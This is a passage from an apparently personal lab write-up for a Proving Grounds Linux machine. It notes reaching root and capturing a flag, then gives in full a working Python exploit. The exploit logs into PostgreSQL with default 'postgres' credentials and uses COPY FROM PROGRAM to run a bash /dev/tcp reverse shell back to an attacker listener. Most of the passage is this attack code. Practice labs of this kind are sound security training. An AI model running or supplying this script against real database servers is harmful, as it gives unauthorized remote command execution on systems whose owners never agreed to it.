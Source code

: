 And we're root :)

![[PG/Linux/attachments/Pasted image 20250710221604.png]]

Then got wilson's flag 

![[PG/Linux/attachments/Pasted image 20250710221705.png]]


### This was the file exploit code 

```
#!/usr/bin/env python3
import psycopg2
import traceback

RHOST = '192.168.236.47'
RPORT = 5437
LHOST = '192.168.45.152'
LPORT = 80
USER = 'postgres'
PASSWD = 'postgres'

with psycopg2.connect(host=RHOST, port=RPORT, user=USER, password=PASSWD) as conn:
    try:
        cur = conn.cursor()
        print("[!] Connected to the PostgreSQL database")
        rev_shell = (f"bash -c 'exec 5<>/dev/tcp/{LHOST}/{LPORT};cat <&5 | while read line; do $line 2>&5 >&5; done'")
        safe_payload = rev_shell.replace("'", "''")  # escape quotes
        print(f"[*] Executing the payload. Please check if you got a reverse shell!\n")
        cur.execute('DROP TABLE IF EXISTS cmd_exec')
        cur.execute('CREATE TABLE cmd_exec(cmd_output text)')
        cur.execute(f"COPY cmd_exec FROM PROGRAM '{safe_payload}'")
        cur.execute('SELECT * from cmd_exec')
        v = cur.fetchall()
        print(v)
        cur.close()

    except Exception as e:
        print(f"[!] Something went wrong: {e}")
        traceback.print_exc()

```